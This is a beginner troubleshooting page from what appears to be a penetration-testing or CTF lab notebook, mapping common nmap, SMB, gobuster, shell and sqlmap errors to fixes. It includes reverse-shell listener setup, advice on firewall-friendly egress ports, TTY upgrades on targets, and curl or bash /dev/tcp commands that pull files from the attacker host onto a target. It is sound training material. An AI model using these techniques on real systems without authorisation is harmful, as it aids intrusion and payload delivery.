

---
tags:
  - troubleshooting
  - errors
  - reference
  - beginner
  - index
---

# ⚠️ Common Errors & Troubleshooting

> [!abstract] What this is
> The errors beginners hit most, what they actually mean, and the fix. When something "doesn't work", search this page first (Ctrl/Cmd+F).



---

## 🌐 Networking / connection

> [!danger] `No route to host` / `Connection timed out`
> **Cause:** You can't reach the target at all.
> **Fix:**
> ```bash
> ping $IP                    # is it alive?
> ip a | grep tun0            # are you connected to the VPN?
> ```
> If ping fails but it's a real target, the host may block ICMP — add `-Pn` to nmap.

> [!danger] `Connection refused`
> **Cause:** You reached the host, but **nothing is listening on that port** (or it closed).
> **Fix:** Re-scan to confirm the port is actually open. For reverse shells, make sure your `nc` listener is running **before** you trigger the payload, and that `LPORT` matches.

> [!warning] Reverse shell never connects back
> - Is your listener up? `nc -lvnp 4444`
> - Is `LHOST` your **VPN IP (tun0)**, not your home IP? `ip a | grep tun0`
> - Try a common allowed port: **443** or **53** (firewalls often allow these outbound).
> - Try a different shell type (bash vs nc vs python) — not all are installed on the target.

---

## 🔍 Nmap

> [!danger] `You requested a scan type which requires root privileges`
> **Cause:** SYN scan (`-sS`), UDP (`-sU`), and OS detection need raw sockets.
> **Fix:** Add `sudo`:
> ```bash
> sudo nmap -sS -p- $IP
> ```

> [!warning] Scan says "host seems down"
> The host blocks ping. Skip host discovery:
> ```bash
> sudo nmap -Pn -p- $IP
> ```

> [!warning] Nmap is painfully slow
> Add `--min-rate 5000` (send faster) and scan in stages: all ports first, then `-sCV` only on the open ones.

---

## 📁 SMB

> [!danger] `NT_STATUS_ACCESS_DENIED`
> **Cause:** You need valid credentials for that share/action.
> **Fix:** Try a null session first (`-N`), then known creds: `smbclient //$IP/share -U user`.

> [!danger] `protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED`
> **Cause:** Modern smbclient refuses old SMBv1.
> **Fix:** Force an older protocol:
> ```bash
> smbclient -L //$IP/ -N --option='client min protocol=NT1'
> ```

> [!danger] `NT_STATUS_LOGON_FAILURE`
> Wrong username/password. Re-check creds; try `''` empty, or `guest` with no password.

---

## 🌐 Web / gobuster

> [!danger] gobuster: `wordlist file does not exist`
> **Fix:** Point at a real path. Find wordlists:
> ```bash
> ls /usr/share/wordlists/
> ls /usr/share/seclists/Discovery/Web-Content/      # install: sudo apt install seclists
> ```

> [!warning] gobuster returns everything as 200/403 (false positives)
> The app returns 200 for missing pages. Filter it:
> ```bash
> gobuster dir -u http://$IP -w list.txt -b 200,404      # blacklist status codes
> gobuster dir -u http://$IP -w list.txt --exclude-length 1234   # filter by size
> ```

> [!warning] HTTPS site: `tls: failed to verify certificate`
> Add `-k` (gobuster/curl) to ignore the self-signed cert.

---

## 🐚 Shells

> [!warning] Shell is "dumb" — no tab-complete, Ctrl+C kills it, arrow keys print escape junk
> Upgrade it to a proper TTY:
> ```bash
> python3 -c 'import pty;pty.spawn("/bin/bash")'   # on target
> # Ctrl+Z to background
> stty raw -echo; fg                                # on kali
> export TERM=xterm                                 # on target
> ```
> Full steps in [[🧰 Command Cheat Sheet]].

> [!danger] `bash: command not found` after getting a shell
> Limited PATH. Use full paths (`/bin/bash`, `/usr/bin/python3`) or set:
> ```bash
> export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> ```

---

## 📤 File transfer

> [!danger] `wget: command not found` on target
> Try alternatives that are usually present:
> ```bash
> curl http://$LHOST/file -o file
> # or pure bash:
> exec 3<>/dev/tcp/$LHOST/80; echo -e "GET /file HTTP/1.0\n" >&3; cat <&3
> ```

> [!warning] Downloaded script won't run: `Permission denied`
> Make it executable and/or run from a writable dir like `/tmp`:
> ```bash
> chmod +x /tmp/script.sh && /tmp/script.sh
> ```

---

## 💉 sqlmap / exploitation

> [!warning] sqlmap finds nothing but you suspect SQLi
> - Add `--level=5 --risk=3` (more aggressive)
> - Provide the full request: save it from Burp and use `-r request.txt`
> - Specify the DB: `--dbms=mysql`

---

## 🧠 General mindset

> [!tip] When truly stuck
> 1. Re-read the error **literally** — it usually says what's wrong.
> 2. Go back to enumeration (see the checklist in [[📖 Start Here — Beginner Guide]]).
> 3. Google the **exact** error string in quotes.
> 4. Search `"<service> <version> exploit"` on [Exploit-DB](https://www.exploit-db.com).

---

## Related
- [[📖 Start Here — Beginner Guide]]
- [[🧰 Command Cheat Sheet]]
- [[🔣 Encoding Reference]]

> [!info] Section: [[🏠 Home]]
